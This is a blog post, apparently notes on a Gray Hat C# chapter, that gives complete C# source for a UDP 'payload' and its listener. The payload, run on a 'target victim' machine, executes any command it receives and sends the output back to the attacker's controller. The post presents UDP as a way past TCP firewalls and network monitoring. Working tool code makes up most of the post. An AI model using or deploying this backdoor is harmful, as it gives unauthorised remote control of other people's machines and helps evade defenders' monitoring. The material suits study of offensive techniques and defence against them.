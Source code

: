 ```yaml
---
title: Creating a UDP payload and a listener to implement a UDP remote connection as an alternate channel of communication. 
date: 2021-07-09 12:50:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UDP listener and payload.
---
```


## We write a program to create a UDP payload and a listener to implement a UDP remote connection as an alternate channel of communication.

- UDP payloads/listeners can be used as an alternate channel of communication in monitored environments and are not heavily scrutinized. It is a connectionless protocol with no overhead to ensure deliverability hence it is blazingly fast.
- We use the `UdpClient` and `Socket` classes over UDP. 
- Both the attacker and victim machines will need to listen for UDP broadcasts as well as maintain a socket to broadcast data to another computer.
- The code on the target machine will listen on a UDP port for commands, execute them and return the output to the attacker's UDP socket, while the attacker maintains a listener and socket to execute pass these commands.

## CODE:

### UDP Payload -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

// UDP payloads are used as an alternative to hosts that are heavily TCP firewalled, wherein both the target and attacker maintain a listening socket to broadcast data to each other.

namespace UDP_payload
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Runnning UDP payload on port: " + args[0]);
            int lport = int.Parse(args[0]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Local Endpoint
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string cmd;
                byte[] input;

                // Recieving data from broadcasts, loops continiously until an empty string is recieved; Also blocks exec until a broadcast is recieved.
                while (true)
                {
                    // Recieve fills localEP address property with attackers IP and other connection info
                    input = listener.Receive(ref localEP);
                    cmd = Encoding.ASCII.GetString(input, 0, input.Length);
                    if (string.IsNullOrEmpty(cmd))
                    {
                        listener.Close();
                        return;
                    }

                    if (string.IsNullOrWhiteSpace(cmd))
                        continue;
                    string[] split = cmd.Trim().Split(' ');
                    string filename = split.First();
                    string arg = string.Join(" ", split.Skip(1));
                    string results = string.Empty;

                    // Executing the cmd and returning result to the sender
                    try
                    {
                        // Start local process
                        Process prc = new Process();
                        // Adding additional properties the the Process class
                        prc.StartInfo = new ProcessStartInfo();
                        prc.StartInfo.FileName = filename;
                        prc.StartInfo.Arguments = arg;
                        prc.StartInfo.UseShellExecute = false;
                        prc.StartInfo.RedirectStandardOutput = true;
                        prc.Start();
                        // Wait until process exits
                        prc.WaitForExit();
                        results = prc.StandardOutput.ReadToEnd();
                    }
                    catch
                    {
                        results = "[!] There was an error running the following command: " + filename + "\t" + arg;
                    }
                    //Creating UDP socket
                    using (Socket sock = new Socket(AddressFamily.InterNetwork,
                        SocketType.Dgram, ProtocolType.Udp))
                    {
                        IPAddress sender = localEP.Address;
                        // Creating new endpoint using senders IP
                        IPEndPoint remoteEP = new IPEndPoint(sender, lport);
                        byte[] resultBytes = Encoding.ASCII.GetBytes(results);
                        sock.SendTo(resultBytes, remoteEP);
                    }
                }

            }

        }
    }
}
```

### UDP Listener -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace UDP_listener
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Running UDP client/listener");
            int lport = int.Parse(args[1]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Create local listener endpoint at 0.0.0.0 at specified port
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string output;
                byte[] bytes;

                // Creating variables to send UDP Broadcasts
                using (Socket sock = new(AddressFamily.InterNetwork, SocketType.Dgram, ProtocolType.Udp))
                {
                    // Convert to IPaddrs type Class
                    IPAddress addr = IPAddress.Parse(args[0]);
                    IPEndPoint addrEP = new IPEndPoint(addr, lport);

                    // Communicating with the target
                    Console.WriteLine("[+] Enter a command to send, or a blank line to quit");
                    while (true)
                    {
                        // Read cmd from std i/p
                        string command = Console.ReadLine();
                        byte[] buff = Encoding.ASCII.GetBytes(command);

                        try
                        {
                            sock.SendTo(buff, addrEP);

                            if (string.IsNullOrEmpty(command))
                            {
                                sock.Close();
                                listener.Close();
                                return;
                            }

                            if (string.IsNullOrWhiteSpace(command))
                                continue;

                            bytes = listener.Receive(ref localEP);
                            output = Encoding.ASCII.GetString(bytes, 0, bytes.Length);
                            Console.WriteLine(output);
                        }
                        catch (Exception ex)
                        {
                            Console.WriteLine("[!] Exception{0}", ex.Message);
                        }
                    }
                }
            }
        }
    }
}
```


## OUTPUT:

### Attacker -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_listener.png)

### Target Victim -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_payload.png)